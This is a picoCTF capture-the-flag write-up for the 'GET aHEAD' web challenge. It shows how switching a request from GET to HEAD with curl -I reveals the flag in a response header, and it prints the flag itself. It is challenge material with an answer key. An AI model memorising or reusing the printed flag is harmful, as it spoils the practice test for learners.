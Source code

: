 # GET aHEAD 

This is the write-up for the challenge "GET aHEAD" challenge in PicoCTF

# The challenge

## Description
Find the flag being held on this server to get ahead of the competition http://mercury.picoctf.net:53554/

![](img/screenshot1.png)

## Hints
1. Maybe you have more than 2 choices
2. Check out tools like Burpsuite to modify your requests and look at the responses

## Initial look
The above link brings you to a basic HTML page where you can switch colors by clicking on two different buttons.
# How to solve it

I have looked at the hints. 

The first one gave me the impression, that I have more than two choices on the webpage, so I started to look for a hidden button (you have two buttons on the page, dugh...). This did not bring me to anything, did not find anything interesting. 

The second hint made me think, that something in the HTTP request needs to be modified. I have opened the developer tools in my Chrome browser to look at the request on the page:

![](img/screenshot2.png)

I did not see anything in the form submit, so nothing there to change.

At this point, I looked at the name of the challenge "Get aHEAD" and realized that the solution might be in changing the HTTP verb (from GET to HEAD). 

I have copied the request to the webpage as a cURL command in the developer tools and I got the following cURL command:

```bash
curl 'http://mercury.picoctf.net:53554/index.php?' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' \
  -H 'Accept-Language: en-US,en;q=0.9' \
  -H 'Cache-Control: max-age=0' \
  -H 'Connection: keep-alive' \
  -H 'Cookie: session=eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.ZClNqA.M-XsPp1RSPjbB1Of7fQtDUMfGvk' \
  -H 'Referer: http://mercury.picoctf.net:53554/' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36' \
  --compressed \
  --insecure
```

According to cURL documentation, you can run this HTTP request as a HEAD command with the `-I` argument. So I tried it:
```bash
$ curl 'http://mercury.picoctf.net:53554/index.php?' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' \
  -H 'Accept-Language: en-US,en;q=0.9' \
  -H 'Cache-Control: max-age=0' \
  -H 'Connection: keep-alive' \
  -H 'Cookie: session=eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.ZClNqA.M-XsPp1RSPjbB1Of7fQtDUMfGvk' \
  -H 'Referer: http://mercury.picoctf.net:53554/' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36' \
  --compressed \
  --insecure -I
HTTP/1.1 200 OK
flag: picoCTF{r3j3ct_th3_du4l1ty_2e5ba39f}
Content-type: text/html; charset=UTF-8
```

Voila!!! 😎

The flag is `picoCTF{r3j3ct_th3_du4l1ty_2e5ba39f}`

Cheers 😄